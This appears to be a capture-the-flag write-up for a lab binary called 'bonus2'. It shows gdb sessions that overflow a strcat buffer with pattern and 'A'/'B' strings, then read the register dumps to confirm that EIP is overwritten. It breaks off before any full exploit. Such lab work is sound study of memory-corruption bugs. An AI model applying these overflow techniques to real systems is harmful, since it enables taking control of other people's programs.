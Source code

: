 Do nothing

Try to overflow the strcat with a pattern

	(gdb) r coucou $(cat /tmp/pattern)
	Starting program: /home/user/bonus2/bonus2 coucou $(cat /tmp/pattern)
	Hello coucou
	[Inferior 1 (process 9596) exited with code 015]

Nope

	(gdb) r $(cat /tmp/pattern) coucou
	Starting program: /home/user/bonus2/bonus2 $(cat /tmp/pattern) coucou
	Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJcoucou
	[Inferior 1 (process 9599) exited with code 065]

Nope

	(gdb) r $(cat /tmp/pattern) $(cat /tmp/pattern)
	Starting program: /home/user/bonus2/bonus2 $(cat /tmp/pattern) $(cat /tmp/pattern)
	Hello AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

	Program received signal SIGSEGV, Segmentation fault.
	0x08004848 in ?? ()

Segfault!

	(gdb) i r
	eax            0x4f	79
	ecx            0xffffffff	-1
	edx            0xb7fd28b8	-1208145736
	ebx            0xbffff440	-1073744832
	esp            0xbffff3f0	0xbffff3f0
	ebp            0x48484747	0x48484747
	esi            0xbffff48c	-1073744756
	edi            0xbffff43c	-1073744836
	eip            0x8004848	0x8004848
	eflags         0x210282	[ SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

We can see the pattern in EIP and half of EIP

First, search the good argument for the overflow with 2 different pattern

	(gdb) r $(python -c 'print "B"*200') $(python -c 'print "A"*200')
	Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B"*200') $(python -c 'print "A"*200')
	Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	Program received signal SIGSEGV, Segmentation fault.
	0x08004141 in ?? ()
	(gdb) i r
	eax            0x4f	79
	ecx            0xffffffff	-1
	edx            0xb7fd28b8	-1208145736
	ebx            0xbffff450	-1073744816
	esp            0xbffff400	0xbffff400
	ebp            0x41414141	0x41414141         <---- AAAA
	esi            0xbffff49c	-1073744740
	edi            0xbffff44c	-1073744820
	eip            0x8004141	0x8004141
	eflags         0x210286	[ PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123